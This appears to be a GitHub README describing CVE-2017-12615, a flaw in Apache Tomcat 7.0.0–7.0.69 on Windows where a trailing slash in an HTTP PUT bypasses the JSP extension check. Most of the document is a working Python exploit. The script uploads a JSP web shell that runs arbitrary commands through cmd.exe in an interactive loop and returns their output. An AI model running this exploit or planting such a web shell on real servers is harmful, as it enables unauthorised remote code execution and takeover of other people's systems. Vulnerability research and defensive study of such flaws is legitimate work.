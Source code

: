 <div align="center"><h1>CVE-2017-12615 REPORT</h1></div>

## About the vulnerability

When running Apache Tomcat on Windows with HTTP PUTs enabled (e.g. via setting the readonly initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

**On versions:** Apache Tomcat 7.0.0 to 7.0.69

**Pre-requisites:** set readonly init parameter of Default to false i.e enable HTTP PUTs.

## Explanation

Apache Tomcat should not allow upload of file files .jsp extension variants.

`PUT /evil.jsp` should give an error.

But the extension check is bypassed when a '/' is added to the end of the url.

`PUT /evil.jsp/` triggers the vulnerability.

This happens because `file()` method in `VirtualDirContext.java` does not validate the extension correctly on appending '/' to the url.

Passing any jsp code by HTTP PUTs request to the Tomcat Server, on triggering the vulnerability, would lead to RCE on the server.

## Exploit

```
#!/usr/bin/python
import requests

targetURL = input('target url\n') #Url of the the Apache Tomcat Server

def cmdshell():
    command = input('$> ') #command to run at the target
    endpoint = 'http://' + targetURL + '/payload.jsp' #Url of the the Apache Tomcat Server along with the name of the jsp filed as it should appear in servers dir
    payload = '''
    <%@ page import="java.util.*,java.io.*"%>
    <%
    String cmd = "''' + command + '''";
    Process p;
    p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
    %>
    ''' #Payload for RCE in .JSP format
    r = requests.put(endpoint+'/', data=payload) #Sending PUTs request with payload
    r = requests.get(endpoint) #For seeing the output of RCE
    print(r.content.decode("utf-8")) #decode response with UTF-8

while True:
    cmdshell()

```

This exploit was tested on Apache Tomcat 7.0.69 and allows RCE on the Apache Tomcat Server.

## Proof of Concept

[![Everything Is AWESOME](http://i.imgur.com/Ot5DWAW.png)](https://youtu.be/StTqXEQ2l-Y?t=35s "Everything Is AWESOME")
